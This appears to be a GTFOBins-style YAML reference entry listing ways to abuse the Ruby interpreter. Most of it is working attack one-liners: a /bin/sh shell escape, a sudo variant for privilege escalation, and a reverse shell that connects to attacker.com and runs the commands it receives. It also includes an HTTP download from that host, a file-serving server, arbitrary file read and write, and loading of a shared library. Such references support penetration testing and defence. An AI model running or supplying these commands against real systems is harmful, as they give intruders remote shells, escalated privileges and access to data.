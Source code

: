 ```yaml
---
functions:
  execute-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  upload:
    - description: Serve files in the local folder running an HTTP server. This requires version 1.9.2 or later.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export RFILE=/file_to_get
        export LFILE=file_to_save
        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
  file-write:
    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("DATA") }'
  file-read:
    - code: ruby -e 'puts File.read("file_to_read")'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
---
```

